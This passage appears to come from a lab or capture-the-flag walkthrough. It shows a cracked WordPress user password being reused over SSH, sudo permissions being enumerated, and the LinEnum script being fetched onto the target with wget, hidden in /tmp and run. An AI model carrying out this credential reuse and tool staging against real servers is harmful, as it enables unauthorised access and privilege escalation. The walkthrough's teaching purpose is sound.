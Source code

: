 It has been determined that the password for the user "steven" is "pink84". With this information, we have the option to access WordPress using the identified password or try logging in as "steven" through SSH to check if the same password has been utilized elsewhere.

The following command can accomplish this task:

```bash
ssh steven@<SERVER-IP>
```

This will prompt you to specify the password for the user, after inputting the cracked password, we are able to authenticate successfully and obtain access via a second local account and have consequently increased our domain of control on the target server.

Quick enumeration reveals that the user “steven” is not a privileged user, however, we can still perform additional enumeration in order to identify whether he has any specific permissions assigned to his account.

Exploiting Misconfigured SUDO Permissions
--

The user “steven” is not a part of the “sudo” group and doesn’t have any administrative privileges, however, he may have a few specific permissions assigned to his account that need to be enumerated manually.

In order to get a complete scope of the permissions assigned to a user account, we can leverage the following command:

```bash
sudo -l
```

Alternatively, we can also automate the process by leveraging an automated enumeration script called LinEnum.

Additional details about LinEnum can be obtained by visiting the following link: [https://github.com/rebootuser/LinEnum.git](https://github.com/rebootuser/LinEnum.git)

In order to utilize LinEnum, we will need to transfer it onto our target system, this can be done by downloading the script to your Kali VM, setting up a local web server, and downloading it to the target, alternatively, you can also download it directly to the target server by running the following command;

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Note: It is always recommended to save your scripts and tools into a folder that is not frequently accessed on the target system, the preferred choice being the /tmp directory.

After transferring the LinEnum script onto the target system, we will need to provide it with executable permissions, this can be done by running the following command:

```bash
chmod +x /tmp/LinEnum.sh
```

We can now execute the script by running the following command:

```bash
/tmp/LinEnum.sh
```
